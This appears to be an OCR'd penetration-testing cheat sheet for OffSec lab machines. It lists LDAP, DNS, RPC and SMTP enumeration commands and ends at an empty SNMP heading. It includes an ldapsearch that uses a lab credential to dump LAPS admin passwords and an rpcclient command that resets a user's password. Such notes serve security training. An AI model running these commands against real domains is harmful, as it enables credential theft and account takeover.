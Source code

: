 ```jsx
nmap -n -sV --script "ldap* and not brute" <IP>
```

```jsx
ldapsearch -v -x -b "DC=hutch,DC=offsec" -H "ldap://192.168.120.108" "(objectclass=*)"
```

```jsx
ldapsearch -x -H ldap://<IP> -D '' -w '' -b "DC=<1_SUBDOMAIN>,DC=<TLD>" > ldap_search.txt
```

```jsx
cat ldap_search.txt | grep -i "samaccountname" | cut -d: -f2 | tr -d " " > users.txt
```

```jsx
~~ldapsearch -v -x -D fmcsorley@HUTCH.OFFSEC -w CrabSharkJellyfish192 -b "DC=hutch,DC=offsec" -h 192.168.120.108 "(ms-MCS-AdmPwd=*)" ms-MCS-AdmPwd~~
ldapsearch -v -x -D fmcsorley@HUTCH.OFFSEC -w CrabSharkJellyfish192 -b "DC=hutch,DC=offsec" -H ldap://192.168.211.122 "(ms-MCS-AdmPwd=*)" ms-MCS-AdmPwd
```

## DNS

```jsx
dig @192.168.162.122 AXFR hutch.offsec
```

## RPC

```jsx
rpcclient 192.168.162.122 -N
```

```jsx
rpcclient -W '' -c querydispinfo -U''%'' '192.168.181.175'
```

```jsx
rpcclient -U nagoya-industries/svc_helpdesk 192.168.167.21
# commands from Nagoya
enumdomusers
enumdomgroups
queryusergroups 0x46c
setuserinfo christopher.lewis 23 'Admin!23'
```

## SMTP

```jsx
telnet 192.168.50.8 25
help
```

## SNMP
